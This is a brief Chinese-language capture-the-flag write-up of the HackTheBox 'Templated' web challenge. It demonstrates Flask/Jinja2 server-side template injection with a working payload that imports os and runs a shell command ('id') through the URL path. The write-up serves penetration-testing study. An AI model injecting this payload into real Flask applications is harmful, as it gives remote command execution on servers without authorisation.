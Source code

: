 ```yaml
---
title: Templated @ HACKTHEBOX Challeges Web
tags: ctf
---
```


flask/jinja2 SSTI模板注入

```http
<http://IP:PORT/{{config>}}
<http://IP:PORT/{{request.application>.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

执行`id`的poc

```http

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

```

然后就是查看目录，查看flag.txt内容